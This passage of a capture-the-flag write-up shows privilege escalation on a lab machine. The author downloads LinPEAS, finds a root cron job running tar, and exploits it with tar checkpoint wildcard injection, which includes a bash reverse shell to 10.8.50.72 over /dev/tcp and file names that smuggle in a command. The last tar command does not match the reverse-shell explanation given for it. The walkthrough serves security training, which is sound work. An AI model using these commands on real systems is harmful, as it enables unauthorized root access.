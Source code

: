 Now that we have initial access to the system, we can begin looking for flags. With our current privileges, easily find the `user.txt` flag in Miles' home directory.

<center>

![4856ecb521d0dcd629bcad974e2dbb62.png](../../_resources/4856ecb521d0dcd629bcad974e2dbb62.png)

</center>

It remains to find the root flag. Let's go ahead and upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")` for convenience. We will use LinPEAS to search for possible privesc avenues. We'll host a web server on our local machine in order to download `linpeas.sh` with `wget`; here, we'll want to save the file to the `/tmp` directory since we have write permissions there. Now use `chmod +x linpeas.sh` to make the file executable, and run it with `./linpeas.sh`. 

There are a few ways we can proceed from here, but we'll focus on looking at cronjobs. One interesting scheduled process sticks out.

<center>

![205bd8e761c33f959206f27942aaefae.png](../../_resources/205bd8e761c33f959206f27942aaefae.png)

![39aa328167e5abfbc3ec9158cbde5ac8.png](../../_resources/39aa328167e5abfbc3ec9158cbde5ac8.png)

</center>

We could try editing the `backup.sh`, but unfortunately we don't have write permissions. Let's look at the contents.

<center>

![93e4f30926ea59f72b46ccb80bad439a.png](../../_resources/93e4f30926ea59f72b46ccb80bad439a.png)

</center>

So, whenever this script runs, it moves into the `/var/www/html` directory and uses `tar` to compress the contents of the directory into a file in Miles' backups directory. Note that the script executes every minute, and it runs with root privileges.

If we look up the tar binary on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we see that we can use it to spawn a new shell with root privileges. We need to use the following sequence of commands to add the relevant options before we can spawn the shell.

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Navigating to `/var/www/html`, we verify that all requires files are in the right place.

<center>

![e6f6c3f0e63acc1605ec8f7525027d77.png](../../_resources/e6f6c3f0e63acc1605ec8f7525027d77.png)

</center>

Now set up a netcat listener on a different port and run the following command to catch the reverse shell.

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

A quick search reveals the location of the `root.txt` flag.

<center>

![cf10e8a25a88a3c4e39d55b903d95fe2.png](../../_resources/cf10e8a25a88a3c4e39d55b903d95fe2.png)

![e57d9a5902ba8f9eff3a0df207d4fb7b.png](../../_resources/e57d9a5902ba8f9eff3a0df207d4fb7b.png)

</center>